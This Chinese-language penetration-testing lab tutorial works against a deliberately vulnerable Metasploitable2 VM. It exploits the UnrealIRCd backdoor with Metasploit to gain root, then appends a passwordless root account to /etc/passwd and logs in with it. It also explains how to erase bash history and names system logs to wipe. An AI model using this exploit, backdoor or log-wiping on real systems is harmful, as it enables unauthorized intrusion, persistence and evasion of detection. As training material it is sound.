# 攻击后清除痕迹并创建访问后门

## 一、实验简介

### 1.1 实验介绍

本实验介绍的是在实验楼的环境 Kali 终端中，使用 MSF 终端，对所要渗透的目标主机进行攻击，并在渗透攻击过程汇中，清除痕迹，创建访问后门。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

本实验是基于实验楼的 Kali 终端环境下进行的，我们的目标靶机是 Metasploitable2，实验通过 Kali 对目标主机进行渗透成功后，进行一系列的后续操作。本实验将会涉及到的知识点分别为：

- 攻击漏洞，拿到 root 权限
- 清除渗透后的痕迹流程
- 创建后门，维持访问

### 1.3 实验环境

本实验在实验楼的环境下进行。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数分别如下：

| 主机   | 主机名            | 用户名     | 密码       |
| ------ | ----------------- | ---------- | ---------- |
| 攻击机 | `Kali Linux 2.0`  | `root`     | `toor`     |
| 靶机   | `Metasploitable2` | `msfadmin` | `msfadmin` |


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双机 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。


首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：




然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：


注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


现在两台实验环境都已经启动，我们即将对目标主机进行渗透测试。


## 三、 创建访问后门

### 3.1 渗透目标主机

这里我们使用 Unreal Ircd 服务漏洞，先取得所要渗透的目标主机的权限，接着再进行攻击后清除痕迹并创建后门程序。

> 后门程序一般是指那些绕过安全性控制，而获取对程序或系统访问权的程序方法。在软件的开发阶段，程序员常常会在软件内创建后门程序以便可以修改程序设计中的缺陷。但是，如果这些后门被其他人知道，或是在发布软件之前没有删除后门程序，那么它就成了安全风险，容易被黑客当成漏洞进行攻击。

接下来我们将对创建简单的后门程序进行演示。

首先在 Kali 的程序命令终端中，输入命令，查找 Unreal Ircd 的可用模块：

```
# 打开终端 MSF

sudo msfconsole

# 查找相应的漏洞模块

search unreal_ircd
```


在 Kali 终端中，输入命令使用该模块：

```
# 使用 use 命令，使用相应的模块

use exploit/unix/irc/unreal_ircd_3281_backdoor
```



使用 show 命令显示参数，并设置相应的参数：

```
# 显示所要设置的参数
show options

# 使用命令，设置参数
set RHOST 192.168.122.102

```




### 3.2 获取权限

对目标主机进行攻击，并获取权限，在 Kali 的终端中，输入命令：

```
# 进行攻击的命令
exploit

# 显示当前用户 
whoami
```




由图可以看出，我们已经获取了 root 权限。


### 3.3 创建后门

在一般的渗透攻击中，黑客为了控制该服务器，一般都会创建一个后门，用以控制目标主机，方便下次访问该目标主机。创建后门的方法很多，有时候得根据所渗透的目标主机决定。这里我们介绍一种比较简单的创建后门的方法。

真正创建更高级的后门，需要在实战中，不断地进行尝试，有时候目标主机的管理员一旦打了补丁，一些创建的后门就不管用了。所以，创建后门是一门攻防艺术，黑客和主机管理员两者之间的博弈过程。下面我们将介绍一下如果创建一个简单的后门程序，方便我们的下次访问。

首先，我们现在已经得到了 `root` 权限。我们查看一下目标主机的系统信息：





使用 find 的命令，查看一下 `root` 用户所使用的 `bash` 是哪一个，在终端中输入命令，如图所示：

```
# 输入命令，查看 root 所用的 bash
cat /etc/passwd

```




接着就出现了这一堆一串一串的字符串，我先来解释一下 `/etc/passwd` 这个文件内容所代表的意思，举个例子来看，对 `msfadmin` 这个用户：





Linux 下的这个 `/etc/passwd` 这个文件中，每一个用户都有一个对应的记录行，这个文件记录着用户的一些基本属性信息。文件对所有的用户都是可读的。与之相近的，还有一个文件 `/etc/shadow`，由于篇幅有限，在这里不进行深入讲解，希望学好渗透的同学，能够去深入地了解一下。下面我们说说文件 `/etc/passwd` 里内容的规则，以及所代表的含义：

在文件 `/etc/passwd` 内容中，一行记录，使用 `:` 冒号分为七个字段，其具体的含义如下：

> <用户名字>：<口令>：<用户标识>：<组标识>：<注释>：<主目录>：<登录的 Shell>

```
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
```

| 字段名称       | 所代表含义                                                   |
| -------------- | ------------------------------------------------------------ |
| 用户名字       | 是代表用户账号的字符串                                       |
| 口令           | 存放着加密后的用户口令字。这个字段存放的只是用户口令的加密串，不是明文，但是由于 `/etc/passwd文` 件对所有用户都可读，所以这仍是一个安全隐患。因此，现在许多 Linux 系统都使用了shadow 技术，把真正的加密后的用户口令字存放到 `/etc/shadow` 文件中，而在`/etc/passwd` 文件的口令字段中只存放一个特殊的字符，例如 “x” 或者 “*” |
| 用户标识       | 是一个整数，系统内部用它来标识用户                           |
| 组标识         | 记录的是用户所属的用户组                                     |
| 注释           | 解释性描述，记录着如名字，电话，地址等信息，实际用途挺少     |
| 主目录         | 用户的起始工作目录                                           |
| 登录的 `Shell` | 要启动一个进程，负责将用户的操作传给内核，这个进程是用户登录到系统后运行的命令解释器或某个特定的程序，即 `Shell` |

其中，常用的 Shell sh(BourneShell), csh(CShell) , ksh(KornShell) , tcsh(TENEX/TOPS-20typeCShell) , bash(BourneAgainShell) 等。

Linux 的 Shell 有许多种，Shell 是用户与 Linux 系统之间的接口。

明白了上面的基础知识，下面我们将写一个简单的后面，并通过后门访问渗透目标主机：

在命令行终端中，输入命令：

```
# 创建无口令账户登录后门
echo 'shiyanlou1234::0:0::/:/bin/sh' >> /etc/passwd
```
这里要注意了，虽然短短的一行命令，但是这里面对小白来说，在第一看到的时候还是云里雾里的，每个字段所代表的含义，请和上面的表格仔细对比一下，而最后一个字段的 `/bin/sh` 中 `sh` 是这个，是因为我们攻击的目标系统是这个，而网上的一些其他教程，写成 `/bin/csh` 不是他们写错，是因为他们攻击的目标主机的 Shell 是 CShell。在终端输入命令后，截图如下：


查看是否输入成功，在终端中，输入命令，查看文件内容：

```
# 查看文件 /etc/passwd 内容
cat /etc/passwd
```


回车，你将会看到如下：





接着，可以重新打开一个实验楼终端，验证我们的后门是否创建成功：


接着输入命令，使用后门登录目标主机：

```
# 链接目标主机
telnet target

```




输入登录的账户名，就是刚才我们在 `echo` 中创建的用户名 `shiyanlou1234`：



回车，登录成功，查看下我们现在的身份：

```
# 查看身份
whoami
```




后门创建完成，这种后门比较简单，比较适合初学者研究。如果想创建更高深的后门程序，还得靠不断的深入学习。

### 3.4 后门工具介绍

在渗透成功后，真实的环境中，渗透成功后往往会进行清理脚印和留后门等工作，最常使用的后门创建工具就是 Rootkit。

> Rootkit 是指其主要功能为：隐藏其他程序进程的软件，可能是一个或一个以上的软件组合。广义而言，Rootkit 也可视为一项技术。在今天，Rootkit 一词更多地是指被作为驱动程序，加载到操作系统内核中的恶意软件。因为其代码运行在特权模式之下，从而能造成意料之外的危险。


>  Linux 后门技巧

Linux 留下后门的技巧中，有一种方法是写到内存当中，metasploit 中的 meterpreter 很常见的手法，叫做迁移进程
 就是把当前的 session 迁移到系统的某些不会被关闭的进程中，然后长期维持稳定的 session。

如果在做实验的同学仔细观察，可以发现在开始我们输入 `exploit` 渗透成功后，会有个 `Command Shell session 1 Opened` 的提示,这个东西，是一个 session 会话。





## 四、清除痕迹

### 4.1 清除痕迹

在访问了对方的目标主机后，很容易留下痕迹，从而被发现。

举个例子，最常见的就是在 Shell 中输入命令 `history`就能看到自己过往留下的命令痕迹，输入命令 `history` 你将会看到类似记录：

```
# 查看历史记录命令
history
```




一般来说，我们要清除的日志大致有：

lastlog、utmp、wtmp、messages、syslog、sulog 以及记录用户的 Shell 命令。

每一个命令的删除和详细使用，都有许多东西要学。如果对 Linux 下的 history 命令感兴趣，推荐大家阅读下面这个博客的这篇文章《清除linux下history删除和调用》 写得非常的详细：

> 引自:http://www.dabu.info/clear_linux_history_delete_and_call.html

其中，清楚 history 命令的痕迹为：

```
# 清楚历史命令
history -c
```



history 命令对应的文件为 `.bash_history`，在渗透攻击的过程中，如果你不记得文件在哪里了，可以使用如下命令来查找：

```
# 使用 find 命令查找相应文件
# 用法 find <路径> -name <文件名>

find / -name .bash_history
```



立即清空里的 history 当前历史命令的记录`history -c`。

要注意的是，bash 执行命令时不是马上把命令名称写入 history 文件的，而是存放在内部的 buffer 中，等 bash 退出时会一并写入。不过，可以调用 `history -w` 命令要求 bash 立即更新 history 文件

需要学习的地方还有很多，这里只是举了 history 的例子，希望大家能够耐得住性子，多动手实战，只有在实战中，才能够更好地提升自己的渗透水平。


## 五、总结

### 5.1 实验总结

本实验主要介绍了渗透攻击成功后，创建访问后门并清除痕迹。在真正的渗透环境中，结合使用后门的工具，能够更好地保护好自己的踪迹。在学习后门技术中，学习的同学要清楚我们会产生哪些记录，以及记录命令的文件在哪里。在学习本实验中，你学会了：

- 攻击漏洞，拿到 root 权限
- 创建后门，用以访问
- 清除渗透后的痕迹流程

## 六、推荐阅读

### 6.1 推荐阅读

在学习了本实验《攻击后清除痕迹并创建访问后门》的实验后，老师推荐大家一些好的阅读材料给大家阅读，以方便大家加深对渗透过程的理解。本实验介绍的是清除痕迹并创建后门访问。在这其中，Linux 下的操作命令是一项必须要掌握的技能。这些常用的命令只有熟记于心，才能够更好地进行渗透攻击。下面是一些推荐阅读文档：

来自 Linux 教程网，文章对 Unix 系统的后门做了一个非常详细的介绍：

> http://linux.ximizi.com/linux/linux7522.htm

希望大家有空的时候可以去看，相信看完之后，对后门的必定有一个深入的了解。

## 七、课后作业

### 7.1 课后作业

本次的 Kali 训练营到这里就要结束了。希望同学们对于 Metasploitable2 中的漏洞例子，加以练习以便更好地理解。渗透攻击，是一门非常注重实践的动手课，自由通过动手去学习，才能够更好地学习本门课程。本课程的最后一次实验作业为：

- 回顾之前课程的漏洞
- 掌握 Kali 渗透训练营的漏洞攻击流程
- 学会后门创建，以及清除痕迹
- 阅读推荐材料（可选）

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。

> 最后，感谢大家学习本门课程。

